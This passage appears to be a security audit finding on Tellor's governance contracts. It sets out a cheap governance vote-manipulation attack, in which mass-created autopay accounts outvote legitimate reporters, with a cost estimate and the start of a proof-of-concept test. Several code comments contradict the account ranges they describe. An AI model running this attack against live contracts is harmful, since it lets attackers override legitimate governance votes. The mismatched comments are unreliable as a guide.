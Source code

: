 ```javascript

Legitimate  reporters (support): 10

Malicious  reporters (against): 1

Multisig (support): 1

Vote outcome: FAILED

ATTACK SUCCESSFUL: Malicious  actors  overruled  legitimate  votes

```
### Feasibility:

- 100 TRB available on Uniswap V2 and V3

- Needed cost to setup 100 autopay users is 100 * 1 WEI = 0,0000000000000001

- Needed cost to vote with 168 users is 168 * 10000 WEI = 0,00000000000168 TRB

- Needed cost to become a staker and vote as reporter = 100 TRB

- Total cost: 100 TRB + 0,000000000001 TRB = ~100,00000000001 TRB
- It only takes the minimum time defined by the contract for a malicious actor to execute this exploit vector.

### Proof of code:

- `git clone` https://github.com/tellor-io/governance
- Open test file `governance/test/e2eTests.js`
- Add this test code to the file (or create a new file):
```
it("[T-007] Test legitimate users vs malicious actors voting power", async  function () {

// Check if we have enough accounts

if (accounts.length < 500) {

console.log("Not enough accounts available. Test skipped.");

return;

}

  

console.log(`Total accounts available: ${accounts.length}`);

  

// Setup accounts with clear separation and no overlap

const  legitimateAutopayUsers = accounts.slice(0, 2); // 2 legitimate autopay users (0-1)

const  legitimateTokenHolders = accounts.slice(10, 60); // 50 legitimate token holders (10-59)

const  legitimateReporters = accounts.slice(100, 110); // 50 legitimate reporters (100-149)

const  multisig = accounts[200]; // Legitimate multisig (200)

  

const  maliciousAutopayUsers = accounts.slice(700, 800); // 100 malicious autopay users (210-229)

const  maliciousRecyclers = accounts.slice(231, 399); // 168 accounts for recycling (240-289)
```